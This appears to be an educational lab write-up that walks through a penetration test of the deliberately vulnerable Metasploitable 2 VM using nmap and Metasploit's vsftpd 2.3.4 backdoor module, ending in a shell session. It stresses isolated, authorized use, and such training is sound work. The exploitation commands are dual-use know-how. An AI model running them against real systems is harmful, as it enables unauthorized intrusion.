


# Experiment: Ethical Hacking Simulation Using Metasploit

## Aim

To simulate a basic penetration-testing scenario by exploiting an intentionally vulnerable virtual machine with the Metasploit Framework and to understand the different stages involved in an ethical hacking process.

## Requirements

* **Kali Linux** — penetration-testing machine
* **Metasploitable 2** — vulnerable target machine
* **VirtualBox / VMware** — virtualization platform
* **Host-only / Internal Network** — isolated laboratory network
* **Target IP:** `192.168.56.100`

> **Safety Note:** This experiment must be performed only on the intentionally vulnerable Metasploitable VM within an isolated and authorized lab environment.

---

## 1. Introduction

Metasploit Framework is a widely used penetration-testing platform that helps security professionals test and validate vulnerabilities in controlled environments.

The general workflow followed during this experiment is:

```text
Target Discovery
      ↓
Service Enumeration
      ↓
Vulnerability Identification
      ↓
Exploit Selection
      ↓
Exploit Configuration
      ↓
Exploitation
      ↓
Session Verification
      ↓
Cleanup and Documentation
```

---

## 2. Check Network Connection

Before beginning the scan, verify that the Kali machine can communicate with the target VM.

Execute:

```bash
ping 192.168.56.100
```

A successful response may look like:

```text
64 bytes from 192.168.56.100: icmp_seq=1 ttl=64 time=...
```

**Observation:** Successful replies indicate that the target VM is accessible from the Kali machine over the configured laboratory network.

---

## 3. Perform Service Enumeration

Nmap can be used to determine which services are exposed by the target.

Run:

```bash
nmap -sV 192.168.56.100
```

Here, `-sV` enables service-version detection.

A sample result may contain services such as:

```text
21/tcp    ftp
22/tcp    ssh
23/tcp    telnet
80/tcp    http
139/tcp   netbios-ssn
445/tcp   microsoft-ds
```



**Observation:** Service enumeration provides useful information about the applications and versions running on the target and helps in identifying possible vulnerabilities.

---

## 4. Launch Metasploit Framework

Start the Metasploit console using:

```bash
msfconsole
```

After the console loads, the installed Metasploit version can be checked with:

```text
version
```

---

## 5. Locate the Required Exploit

Metasploitable 2 contains several deliberately vulnerable services. In this experiment, the **vsftpd 2.3.4 backdoor vulnerability** is used as an example.

Search for the corresponding module:

```text
search vsftpd
```

The search results should include a module related to:

```text
vsftpd 2.3.4 Backdoor
```



**Observation:** Metasploit's search functionality helps locate modules associated with known vulnerabilities.

---

## 6. Configure the Exploit Module

Select the required exploit:

```text
use exploit/unix/ftp/vsftpd_234_backdoor
```

To view the module configuration parameters, use:

```text
show options
```

Specify the target machine:

```text
set RHOSTS 192.168.56.100
```

Verify the settings once again:

```text
show options
```

The target should now be configured as:

```text
RHOSTS    192.168.56.100
```

**Observation:** Correct configuration of the target address is necessary before attempting the exploitation step.

---

## 7. Execute the Exploit

Start the selected module using either:

```text
run
```

or:

```text
exploit
```

Metasploit will attempt to interact with the vulnerable FTP service on the Metasploitable machine.

If the exploitation is successful, Metasploit may indicate that a new session has been created.

---

## 8. Check and Access the Session

To view currently active sessions, execute:

```text
sessions
```

An example output may be:

```text
Active sessions
===============

Id  Name  Type
--  ----  ----
1         shell ...
```

To interact with a particular session:

```text
sessions -i 1
```

Once inside the session, basic identification commands can be used:

```bash
whoami
```

and:

```bash
id
```

**Observation:** Successful execution of these commands demonstrates that the vulnerable service allowed command execution within the controlled target environment.

---

## 9. Background and Terminate the Session

The current session can be moved to the background using:

```text
background
```

The available sessions can then be checked with:

```text
sessions
```

After completing the demonstration, terminate the active lab sessions using:

```text
sessions -K
```

This helps ensure that no unnecessary sessions remain active after the experiment.

---

## 10. Frequently Used Metasploit Commands

| Command            | Function                                    |
| ------------------ | ------------------------------------------- |
| `msfconsole`       | Opens the Metasploit Framework console      |
| `search <keyword>` | Finds relevant modules                      |
| `use <module>`     | Loads a selected module                     |
| `info`             | Shows information about the selected module |
| `show options`     | Displays module configuration options       |
| `set RHOSTS <IP>`  | Specifies the target machine                |
| `run`              | Executes the selected module                |
| `sessions`         | Displays active sessions                    |
| `sessions -i <ID>` | Connects to a particular session            |
| `background`       | Moves the current session to the background |
| `exit`             | Closes the Metasploit console               |

---

## 11. Result

The Metasploit Framework was successfully used to demonstrate a controlled exploitation process against the intentionally vulnerable Metasploitable 2 virtual machine. The experiment covered target connectivity, service enumeration, vulnerability identification, exploit selection, configuration, execution, and verification of the resulting session.

---

## 12. Precautions

1. Use Metasploit only against systems for which testing permission has been provided.
2. Keep the Metasploitable and Kali machines within an isolated laboratory network.
3. Confirm the target IP address before running any exploitation module.
4. Never perform these tests against public or unauthorized systems.
5. Terminate active sessions after completing the experiment.
6. Use intentionally vulnerable machines such as Metasploitable for educational penetration-testing practice.

---

**Conclusion:**
This experiment provided practical exposure to the basic workflow of penetration testing using Metasploit. It demonstrated how security testers can identify an exposed service, select an appropriate exploit, configure the target, execute the test, and verify the outcome in a controlled environment.
